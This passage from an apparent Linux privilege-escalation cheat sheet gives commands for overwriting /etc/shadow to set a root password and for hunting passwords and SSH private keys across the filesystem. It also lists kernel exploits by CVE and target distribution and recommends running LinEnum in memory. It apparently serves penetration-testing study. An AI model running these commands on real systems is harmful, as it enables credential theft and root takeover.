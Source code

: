 - **Set Root Password** We can also change the root password on the host if we can write to any file as root:`/etc/shadow`

  ```shell
  printf root:>shadown
  openssl passwd -1 -salt salty password >>shadow
  ```

#### Password Hunting

  ```shell
  grep --color=auto -rnw ‘/’ -ie “PASSWORD” --color=always 2>/dev/null  
  grep --color=auto -rnw ‘/’ -ie “PASSWORD=” --color=always 2>/dev/null  
  ```

<https://linuxcommando.blogspot.com/2007/10/grep-with-color-output.html>  

  ```shell
  locate password | more  
  locate passw | more  
  locate pass | more  
  ```

  ```shell
  find / -name authorized_keys  
  find / -name id_rsa 2>/dev/null  
  ```

#### Kernel Exploits

27. Based on the Kernel version, do we have some reliable exploits that can be used?

| Kernel Version                                                                       | Reliable exploit                               |
|--------------------------------------------------------------------------------------|------------------------------------------------|
| UDEV - Linux Kernel < 2.6 & UDEV < 1.4.1 - CVE-2009-1185 - April 2009                | Ubuntu 8.10, Ubunto 9.04, Gentoo               |
| RDS - Linux Kernel <= 2.6.36-rc8 - CVE-2010-3904 - Linux Exploit -                   | Centos 4/5                                     |
| perf_swevent_init - Linux Kernel < 3.8.9 (x86-64) - CVE-2013-2094 - June 2013        | Ubuntu 12.04.2                                 |
| mempodipper - Linux Kernel 2.6.39 < 3.2.2 (x86-64) - CVE-2012-0056 - January 2012    | Ubuntu 11.10, Ubuntu 10.04, Redhat 6, Oracle 6 |
| Dirty Cow - Linux Kernel 2.6.22 < 3.2.0/3.13.0/4.8.3 - CVE-2016-5195 - October 2016  | Ubuntu 12.04, Ubuntu 14.04, Ubuntu 16.04       |
| KASLR / SMEP - Linux Kernel < 4.4.0-83 / < 4.8.0-58 - CVE-2017-1000112 - August 2017 | Ubuntu 14.04, Ubuntu 16.04                     |

Great list here: <https://github.com/lucyoa/kernel-exploits>

#### Automated Linux Enumeration Scripts

28. It is always a great idea to automate the enumeration process once you understand what you are looking for.

##### LinEmum.sh

LinEnum is a handy method of automating Linux enumeration. It is also written as a shell script and does not require any other intpreters (Python,PERL etc.) which allows you to run it file-lessly in memory.
